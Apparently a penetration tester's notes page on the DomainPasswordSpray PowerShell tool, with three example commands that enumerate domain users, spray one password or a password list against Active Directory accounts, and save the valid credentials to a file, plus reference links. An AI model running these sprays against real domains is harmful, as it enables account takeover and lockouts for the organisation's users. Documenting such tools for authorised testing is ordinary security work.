 # DomainPasswordSpray

Search Tag(s): #password-spraying

TODO: Fill this info

- Perform automated user enumeration then password spray process when executing from the current domain.

`PS C:\> Invoke-DomainPasswordSpray -Password <password> -OutFile credentials.txt`

- Specifying a password list then check for [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/02 - Enumeration and Discovery/Windows/Host/Internal Reconnaissance/01 - Users/Manual/Living off the Land|account lockout observation window]].

`PS C:\> Invoke-DomainPasswordSpray -PasswordList passwords.lst -OutFile credentials.txt`

https://pwn.no0.be/exploitation/password/account_lockout/

`PS C:\> Invoke-DomainPasswordSpray -Domain <DOMAIN> -UserList users.lst -Password <password> -OutFile credentials.txt`

---
## References

- [dafthack: DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

- [Pwnage Base: Password Spray](https://pwn.no0.be/exploitation/password/smb/)

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)